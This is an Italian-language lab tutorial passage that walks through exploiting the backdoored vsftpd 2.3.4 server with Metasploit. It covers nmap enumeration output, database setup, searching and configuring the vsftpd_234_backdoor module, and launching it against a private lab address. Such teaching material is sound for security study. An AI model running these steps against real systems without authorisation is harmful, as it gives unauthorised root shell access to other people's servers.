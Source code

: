# FTP

In questa sezione andremo a realizzare un attacco sul servizio FTP, in particolare sfrutteremo una vulnerabilità molto nota relativa al server FTP vsftpd (acronimo di Very Secure FTP Daemon n.d.r.), daemon molto utilizzato nei sistemi *nix. In realtà questa vulnerabilità non deriva da un bug nel codice, bensì dalla compromissione del sito web ufficiale sul quale un attaccante ha caricato una versione del programma compilato con una backdoor che permette, facendo login con uno smile ":)" di ottenere una bind shell sulla porta 6200. Sebbene questa compromissione fu scoperta molto velocemente, un gran numero di persone ha comunque scaricato questa versione del software (v2.3.4).

Riprendendo l'output dell'enumeration effettuata in precedenza sulla macchina target notiamo che la versione installata di vsftpd è proprio quella incriminata ed è quindi molto probabile sia vulnerabile a questo exploit.

```
PORT      STATE  SERVICE     VERSION
21/tcp    open   ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.56.101
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
```

Possiamo attaccare il target in diversi modi, sul sito [exploit-db.com](exploit-db.com) troviamo ad esempio uno [script Pyhton](https://www.exploit-db.com/exploits/49757) che ci consente di ottenere automaticamente la shell, ma noi siamo interessati all'utilizzo di Metasploit ed è quindi questo il tool che andremo a sfruttare.

Vediamo quindi innanzitutto come configurare e avviare Metasploit sulla nostra macchina kali. Per prima cosa avviamo __msfbd__, utility integrata nel framework che utilizza un database __PostgreSQL__ per conservare e tenere traccia dei risultati ottenuti, importare ed esportare dati da tool esterni e di conservare le opzioni settate per i vari moduli.

```
systemctl start postgresql 

systemctl enable postgresql 

msfdb init
```

Una volta lanciati questi comandi avremo generato il database e a questo punto non ci resta che lanciare la console di Metasploit con il comando `msfconsole`, quello che ci troviamo davanti è un banner casuale tra i tanti disponibili, una breve lista di info sulla nostra installazione di Metasploit, come ad esempio la versione, il numero di exploit, ecc..., ed infine il prompt dei comandi.


<img src="/imgs/msfconsole.png" width="600"> </br>


Prima cosa da fare è cercare se tra i moduli degli exploit presenti ce n'è uno relativo al servizio che vogliamo attaccare, lanciamo quindi il comando `search name:vsftpd` la cui esecuzione produce il seguente output:

```
msf6 > search name:vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor
```

Come si vede la ricerca ha avuto esito positivo, è stato trovato il modulo relativo all'exploit di vsfptd v2.3.4. Come il terminale ci suggerisce possiamo lanciare il comando `info 0` per ottenere tutte le informazioni relative a questo modulo.


```
msf6 > info 0

       Name: VSFTPD v2.3.4 Backdoor Command Execution
     Module: exploit/unix/ftp/vsftpd_234_backdoor
   Platform: Unix
       Arch: cmd
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2011-07-03

Provided by:
  hdm <x@hdm.io>
  MC <mc@metasploit.com>

Available targets:
  Id  Name
  --  ----
  0   Automatic

Check supported:
  No

Basic options:
  Name    Current Setting  Required  Description
  ----    ---------------  --------  -----------
  RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
  RPORT   21               yes       The target port (TCP)

Payload information:
  Space: 2000
  Avoid: 0 characters

Description:
  This module exploits a malicious backdoor that was added to the 
  VSFTPD download archive. This backdoor was introduced into the 
  vsftpd-2.3.4.tar.gz archive between June 30th 2011 and July 1st 2011 
  according to the most recent information available. This backdoor 
  was removed on July 3rd 2011.

References:
  OSVDB (73573)
  http://pastebin.com/AetT9sS5
  http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
```

Nella descrizione si legge proprio quanto detto prima sulla backdoor, ovvero che è stata inserita da un attaccante nei repository di vsftpd nel 2011 ed è stata rimossa dopo circa due giorni. Per utilizzare l'exploit basta ora digitare `use 0` per caricare il modulo dell' exploit e dopo `show options` per ottenere una lista delle opzioni configurabili prima dell'esecuzione.

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   21               yes       The target port (TCP)


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Automatic

```

Tra le opzioni del modulo troviamp __RHOSTS__, dove inseriremo l'ip del target e __RPORT__ dove inserire opzionalmente il porto del target, nel caso fosse diverso da 21. Per configurare l'ip basta digitare `set RHOSTS 192.168.56.102`. Per ottenere i payloads disponibili per il modulo digitiamo `show payloads`, in questo caso si nota che è presente un solo payload, che sarà ovviamente quello di default, pertanto non è necessaria nessuna ulteriore configurazione. A questo punto per lanciare l'attacco basta digitare il comando `exploit`.


<img src="/imgs/vsftpd_exploit.png" width="600"> </br>




